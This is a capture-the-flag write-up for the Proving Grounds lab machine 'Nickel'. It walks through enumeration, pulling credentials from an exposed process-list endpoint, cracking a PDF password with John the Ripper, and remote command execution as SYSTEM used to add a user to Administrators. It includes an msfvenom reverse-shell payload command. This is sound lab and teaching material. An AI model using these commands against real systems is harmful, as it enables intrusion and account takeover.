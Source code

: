 ```yaml
---
description: Writeup for Nickel from Offensive Security Proving Grounds (PG)
---
```


# Nickel

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.90.99 -t full`

`nmapAutomator.sh -H 192.168.90.99 -t vulns`

![](../../.gitbook/assets/1045d818848140149939ce15119699b7.png)

### SMB \(139\)

![](../../.gitbook/assets/64cdf5bd2faa4a01852053c13908f9fb.png)

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.90 LPORT=443 EXITFUNC=thread -f python`

### HTTP

On port 8089, we have a dashboard:

![](../../.gitbook/assets/a3933bd9bebf4c0a9c93c5fe44503947.png)

Each of the links bring us to 169.254.109.39:33333. By going to 192.168.90.99:33333 instead, we get a Not Found response for `/list-current-deployments`.

![](../../.gitbook/assets/4cec4421bd9c4158bb1880db75fa179d.png)

We get a different message, however, for `/list-running-procs`.

![](../../.gitbook/assets/cf537764455c492e83a0948e6ba495bc.png)

If we send a POST request instead, we indeed see a list of running processes!

![](../../.gitbook/assets/5eb1b60892d4431cbdebe0d177a076dd.png)

In the command line of one of the processes, we get a user's credentials.

![](../../.gitbook/assets/ab277a17ba334b6998e3a7cd268c2cce.png)

Plugging the `-p` parameter into CyberChef, we can see that it is a Base 64 encoded password \(`NowiseSloopTheory139`\)

![](../../.gitbook/assets/41e26e8cf30747bca4f5fddfb09b08fd.png)

Using the credentials `ariah:NowiseSloopTheory139`, we can SSH into the server.

![](../../.gitbook/assets/5838d7d87c9b40a19bc5ff39adeb3c86.png)

![](../../.gitbook/assets/4aa83527e8ca4029a2024db4ddbf153c.png)

## Privilege Escalation

Using previously found credentials for `ariah`, we can access the FTP service and download a PDF file.

![](../../.gitbook/assets/8ca2b5288277417a80cbfd0b4f79db4e.png)

However, a password is required. The previously found password does not work.

![](../../.gitbook/assets/f2fb41921fb54cf89abdf79a2b6fb456.png)

Use `pdf2john.pl` to extract the hash.

`perl john-bleeding-jumbo/run/pdf2john.pl Infrastructure.pdf > Infrastructure-Hash.txt`

Use John the Ripper to crack the hash.

`john --wordlist=/usr/share/wordlists/rockyou.txt Infrastructure-Hash.txt`

![](../../.gitbook/assets/3bd8f13aa95d477dabe49c1be7bbf17f.png)

The password is `ariah4168`.

Here, we find a 'Temporary Command endpoint' at `http://nickel/` that is only accessible through the remote machine.

![](../../.gitbook/assets/1aa2582346c249ba9df0f07d81277f76.png)

Using Powershell, we can send a GET request to the API endpoint.

`$Resp = Invoke-WebRequest 'http://nickel/?whoami' -UseBasicParsing`

This executes `whoami`, and we can see the output below.

![](../../.gitbook/assets/f500a3e48246421d95b2ad7cf6000dd7.png)

We have RCE as SYSTEM. However, any outgoing traffic is blocked, so we cannot spawn a second reverse shell as SYSTEM. Let's do the next best thing - adding ourselves to the `Administrators` group.

`localgroup Administrators ariah /add`

![](../../.gitbook/assets/cea4dbb492834bf1b1ee05bad6691f6d.png)

If we check the Administrators group again \(`net localgroup Administrators`\), we can see that our user `ariah` was added.

![](../../.gitbook/assets/08e2c6ebc57c40b38e0dfa2befa4c23e.png)

Now, we can RDP into the machine and run the command prompt as Administrator.

![](../../.gitbook/assets/25b536a08bb1444ca6ae2e30db8ab979.png)

